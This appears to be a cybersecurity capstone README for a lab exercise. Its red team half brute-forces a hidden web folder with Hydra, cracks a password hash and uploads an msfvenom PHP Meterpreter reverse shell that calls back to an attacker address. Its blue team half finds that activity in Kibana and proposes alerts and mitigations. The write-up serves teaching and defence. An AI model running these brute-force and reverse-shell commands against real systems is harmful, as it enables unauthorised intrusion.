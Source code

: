 ##### Note: The report of this project is attached above in pdf format
# Red Vs. Blue Team Project Summary
## Capstone Engagement, Assessment, Analysis, and Hardening of a Vulnerable System
## Red Team: The Attack
### Step 1: Discover the IP address of the Linux server
Run `nmap 192.168.1.0/24`
* From the Nmap scan we can see that port 80 and port 22 is open
- ![alt_text](RedvsBlueSC/image25.png)
* In the web browser, searched IP 192.168.1.105
* Information that helped with finding the secret folder is in the screenshot
* ![alt_text](RedvsBlueSC/image30.png)
### Step 2: Locate the hidden directory on the server.
- Navigated to the secret folder directory by typing: 192.168.1.105/company_folders/secret_folder into the search bar
- The directory asks for authentication in order to access it.The user with access to this folder is Ashton 
### Step 3: Brute force the password for the hidden directory.
- The folder is password protected and we used Hydra to brute force into the directory. We ran Hydra against Ashton's user name and wordlist
- Command: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
- ![alt_text](RedvsBlueSC/image29.png)
- The username is ashton and the password is leopoldo
- We accessed the Secret folder and we got the information below
- ![alt_text](RedvsBlueSC/image33.png)
- ![alt_text](RedvsBlueSC/image34.png)
- Inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.
- ![alt_text](RedvsBlueSC/image3.png)
### Step 4: Connect to the server via Webdav
- We simply used and online tool called Crack Station to break the password hash. https://crackstation.net
- - ![alt_text](RedvsBlueSC/image6.png)
- The password is revealed as: linux4u
### Step 5: Connect to the server via WebDAV
- Following the direction in the secret folder
- Open the File System
- Click Browse Network
- Type: dav://192.168.1.105/webdav into the url bar
- Enter Ryan's credentials to log in
### Step 6: Upload a PHP reverse shell payload
- Command to create the reverse shell in my Kali machine
- Commad: `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`
- Copy the reverse shell from Kali into the WebdDAV directory
- ![alt_text](RedvsBlueSC/image5.png)
- connect to the webdav folder by navigating to 192.168.1.105/webdav and use ryan's username and password `username:ryan password:linux4u`
- click on the shell.php file to activate it.
- ![alt_text](RedvsBlueSC/image4.png)
- To set up listener
- Run `msfconsole`
- Run `use exploit/multi/handler`
- Run `set payload php/meterpreter/reverse_tcp`
- Run `show options and point out they need to set the LHOST`
- Run `set LHOST 192.168.1.90`
- Run `exploit`
- ![alt_text](RedvsBlueSC/image2.png)
### Step 7: Find and capture the flag
- Run `shell` to drop into bash shell
- Command to find the flag: `find . -iname flag.txt`
- ![alt_text](RedvsBlueSC/image1.png)
## Blue Team
## Incident Analysis with Kibana
### Final dashboard
- ![alt_text](RedvsBlueSC/image10.png)
- ![alt_text](RedvsBlueSC/image11.png)
### 1. Identify the Offensive Traffic
- Run `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105` in which the source IP is my Kali machine and the destination machine is the victim web server
- Run `url.path: /company_folders/secret_folder/`
- The attack occurred in the last 7 days
- ![alt_text](RedvsBlueSC/image13-1.png)
- We can see 401, 301, 207 and 200 as the top responses
- We can also see with the HTTP Error Codes [Packetbeat] ECS panel:
- ![alt_text](RedvsBlueSC/image14.png)
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- ![alt_text](RedvsBlueSC/image15.png)
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- ![alt_text](RedvsBlueSC/image16.png)
- ALERT: Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to DoS conditions, as well as provide a hook against which to trigger alerts against suspiciously suspiciously fast series of requests that may be indicative of scanning.
### 2. Find the Request for the Hidden Directory
- Looking at the Top 10 HTTP requests [Packetbeat] ECS panel:
- ![alt_text](RedvsBlueSC/image17.png)
- we can see that the hidden directory (secret folder) folder was requested 16,075 times
- ![alt_text](RedvsBlueSC/image19.png)
- We can see in the same panel that the file connect_to_corp_server was requested 2 times
- ALERT: We could set an alert that goes off for any machine that attempts to access this directory or file.
- Mitigation: The secret_folder directory should be protected with stronger authentication. E.g., it could be moved to a server to which only key-based SSH access from whitelisted IPs is enabled
- The data inside of secret_folder should be encrypted at rest
### 3. Identify the Brute Force Attack
- identifying packets specifically from Hydra
- Using the search function search url.path: /company_folders/secret_folder/. This will show a few conversations involving this folder.
- ![alt_text](RedvsBlueSC/image18.png)
- Looking through the results and we notice that Hydra is identified under the user_agent.original section
- In the Top 10 HTTP requests [Packetbeat] ECS panel, we can see that the password protected secret_folder was requested 16,075 times, but the file inside that directory was only requested 2 times. So, out of 16,075 requests, only 2 were successful
- Take a look at the HTTP status codes for the top queries [Packetbeat] ECS panel
- ![alt_text](RedvsBlueSC/image20.png)
- We can see on this panel the breakdown of 401 Unauthorized status codes as opposed to 200 OK status codes.
- We can also see the spike in both traffic to the server and error codes.
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- ![alt_text](RedvsBlueSC/image21.png)
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- ![alt_text](RedvsBlueSC/image22.png)
- These are all results generated by the brute force attack with Hydra.
- ALERT: We could set an alert if 401 Unauthorized is returned from any server over a certain threshold that would weed out forgotten passwords. Start with 10 in one hour and refine from there
- We could also create an alert if the user_agent.original value includes Hydra in the name
- Create an alert that triggers after 3 lock outs by each user
- Mitigation: After the limit of 10 401 Unauthorized codes have been returned from a server, that server can automatically drop traffic from the offending IP address for a period of 1 hour. We could also display a lockout message and lock the page from login for a temporary period of time from that user.
- The fail2ban utility can be enabled to protect against brute force attacks
### 4. Find the WebDav Connection
- We can again see in the Top 10 HTTP requests [Packetbeat] ECS panel that the webdav folder was directly connected and files inside were accessed.
- ![alt_text](RedvsBlueSC/image23.png)
- We can see the passwd.dav file was requested as well as a file named shell.php
- ALERT: We can create an alert anytime this directory is accessed by a machine other than the machine that should have access
- Mitigation: Connections to this shared folder should not be accessible from the web interface.
- Connections to this shared folder could be restricted by machine with a firewall rule
### 5. Identify the Reverse Shell and meterpreter Traffic
- We can see the shell.php file in the webdav directory on the Top 10 HTTP requests [Packetbeat] ECS panel
- ![alt_text](RedvsBlueSC/image23.png)
- Remember that your meterpreter session ran over port 4444. Port 4444 is the default port used for meterpreter and the port used in all of their documentation. Because of this, many attackers forget to change this port when conducting an attack. You can construct a search query to find these packets.
- Query: `source.ip: 192.168.1.105 and destination.port: 4444`
- ALERT: We can set an alert for any traffic moving over port 4444.
- We can set an alert for any .php file that is uploaded to a server 
- Mitigation: File uploads should require authentication
- Removing the ability to upload files to this directory over the web interface would take care of this issue.
